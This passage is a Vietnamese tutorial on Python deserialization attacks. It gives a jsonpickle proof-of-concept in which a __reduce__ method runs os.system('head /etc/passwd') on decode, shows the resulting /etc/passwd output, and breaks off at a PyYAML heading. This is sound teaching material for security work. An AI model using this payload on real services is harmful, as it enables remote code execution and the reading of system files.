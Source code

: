#### **Tình Trạng Hiện Tại của Tấn Công Deserialization trong Python**

Trong khi công cụ **PHPGGC** nổi tiếng trong hệ sinh thái PHP cho các tấn công deserialization, Python không có một công cụ phổ biến tương tự. Tuy nhiên, tấn công deserialization trong Python vẫn tương đối đơn giản và đã được tài liệu hóa tốt. Thư viện mặc định dùng để tuần tự hóa trong Python là `pickle`, nhưng cũng có các thư viện khác như **JSONPickle** và **PyYAML** cho phép tuần tự hóa dữ liệu.

---

### **JSONPickle:**

Kỹ thuật tấn công deserialization trong **JSONPickle** khá giống với **Pickle**. Cả hai đều dựa vào việc tạo một payload độc hại sử dụng phương thức `__reduce__()`, điều này có thể kích hoạt việc thực thi mã độc khi dữ liệu được deserializing.

#### **Ví Dụ:**

```python
import jsonpickle
import os

class RCE():
    def __reduce__(self):
        return os.system, ("head /etc/passwd",)

# Serialize (tạo payload)
exploit = jsonpickle.encode(RCE())
print(exploit)

# Deserialize (mã lỗ hổng)
jsonpickle.decode(exploit)
```

**Kết Quả Mong Đợi (Thực Thi Lệnh):**

Khi chạy đoạn mã trên, kết quả sẽ hiển thị phần đầu của tệp `/etc/passwd`, cho thấy rằng lệnh `head /etc/passwd` đã được thực thi thành công.

```bash
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Để tìm hiểu thêm về tấn công **JSONPickle** và **Pickle**, bạn có thể tham khảo các liên kết sau:
- [Exploiting Python Pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [Into the Jar: JSONPickle Exploitation](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

---

### **YAML (PyYAML, ruamel.yaml):**
